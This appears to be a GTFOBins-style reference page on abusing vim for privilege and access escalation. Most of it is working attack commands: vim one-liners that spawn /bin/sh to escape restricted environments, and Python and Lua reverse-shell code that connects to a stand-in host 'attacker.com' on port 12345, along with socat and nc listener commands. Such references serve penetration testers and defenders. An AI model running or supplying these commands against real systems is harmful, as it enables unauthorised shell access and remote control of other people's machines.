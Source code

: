 # vim

## **Shell**

It can be used to break out from restricted environments by spawning an interactive system shell.

- `vim -c ':!/bin/sh'`
- `vim --cmd ':set shell=/bin/sh|:shell'`
- This requires that `vim` is compiled with Python support. Prepend `:py3` for Python 3.
    
    ```bash
    vim -c ':py import os; os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
    ```
    
- This requires that `vim` is compiled with Lua support.
    
    ```bash
    vim -c ':lua os.execute("reset; exec sh")'
    ```
    

## **Reverse shell**

It can send back a reverse shell to a listening attacker to open a remote network access.

- This requires that `vim` is compiled with Python support. Prepend `:py3` for Python 3. Run `socat file:`tty`,raw,echo=0 tcp-listen:12345` on the attacker box to receive the shell.
    
    ```bash
    export RHOST=attacker.com
    export RPORT=12345
    vim -c ':py import vim,sys,socket,os,pty;s=socket.socket()
    s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))))
    [os.dup2(s.fileno(),fd) for fd in (0,1,2)]
    pty.spawn("/bin/sh")
    vim.command(":q!")'
    ```
    

## **Non-interactive reverse shell**

It can send back a non-interactive reverse shell to a listening attacker to open a remote network access.

- Run `nc -l -p 12345` on the attacker box to receive the shell. This requires that `vim` is compiled with Lua support and that `lua-socket` is installed.
    
    ```bash
    export RHOST=attacker.com
    export RPORT=12345
    vim -c ':lua local s=require("socket"); local t=assert(s.tcp());
      t:connect(os.getenv("RHOST"),os.getenv("RPORT"));
      while true do
        local r,x=t:receive();local f=assert(io.popen(r,"r"));
        local b=assert(f:read("*a"));t:send(b);
      end;
      f:close();t:close();'
    ```
    